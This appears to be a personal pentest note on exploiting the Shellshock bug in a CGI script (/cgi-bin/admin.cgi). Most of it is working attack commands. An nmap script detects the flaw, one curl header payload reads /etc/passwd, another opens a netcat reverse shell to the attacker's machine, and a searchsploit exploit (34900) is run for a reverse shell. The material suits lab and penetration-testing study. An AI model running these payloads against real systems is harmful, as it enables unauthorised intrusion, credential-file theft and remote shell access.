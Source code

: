 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.sevenlayers.com/index.php/125-exploiting-shellshock

Nikto:

![[Pasted image 20220615122716.png]]

`/cgi-bin/admin.cgi`

Check with nmap:
```bash - kali
nmap $TARGET -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

exploit with curl:
```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$TARGET/cgi-bin/admin.cgi
```

```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/nc -e /bin/bash $KALI 443" http://$TARGET/cgi-bin/admin.cgi
```

Or use

exploit 34900.py

```bash - kali
searchsploit -m 34900
```

May need to manually edit exploit to include cgi-bin target:

![[Pasted image 20220615123539.png]]

```bash - kali
python 34900.py payload=reverse rhost=$TARGET lhost=$KALI lport=444
```